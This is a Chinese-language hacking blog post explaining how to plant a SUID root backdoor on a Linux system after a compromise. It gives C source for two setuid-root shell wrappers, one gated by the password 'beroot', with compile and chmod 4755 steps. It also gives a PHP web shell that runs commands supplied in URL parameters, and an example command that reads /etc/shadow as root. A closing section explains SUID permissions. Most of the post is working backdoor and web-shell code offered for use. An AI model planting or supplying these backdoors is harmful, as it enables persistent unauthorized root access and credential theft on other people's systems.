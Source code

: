 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/suid%20hack.jpeg?raw=true)  
suid shell 是可以以shell所有者权限运行的shell。 
### \#0x00 suid shell生成

suid shell简单代码：  
```c
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell  

### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
```php 
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
```  

访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

### \#0x02 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
``` 

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow  

### \#0x03 suid介绍

当s这个标志出现在文件所有者的x权限上时，此时就被称为Set UID，简程SUID。  
例如执行ls -l /bin/su可以看到   
![1](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/1.jpg?raw=true)  
执行ls -l /usr/bin/passwd 可以看到     
![2](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/suid%20shell/2.jpg?raw=true)  
在文件所有者的x权限上都出现了s权限，那么这个特殊权限的特殊性的作用是什么呢？  
```
1、SUID权限仅对二进制程序有效。  
2、执行者对于该程序需要具有x的可执行权限。 
3、本权限仅在执行该程序的过程中有效。  
4、执行者将具有该程序拥有者的权限。  
``` 

SUID的关键作用体现在第四句，SUID的目的就是：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。  
### \#0x04 参考
[深入Linux文件权限 SUID/SGID/SBIT](https://blog.csdn.net/imkelt/article/details/53054309)  
文章中部分源代码在前辈代码的基础上略做修改，由于时间久远，现在已经不知道代码摘自何处，若作者看到，请速联系（联系方式见about标签）
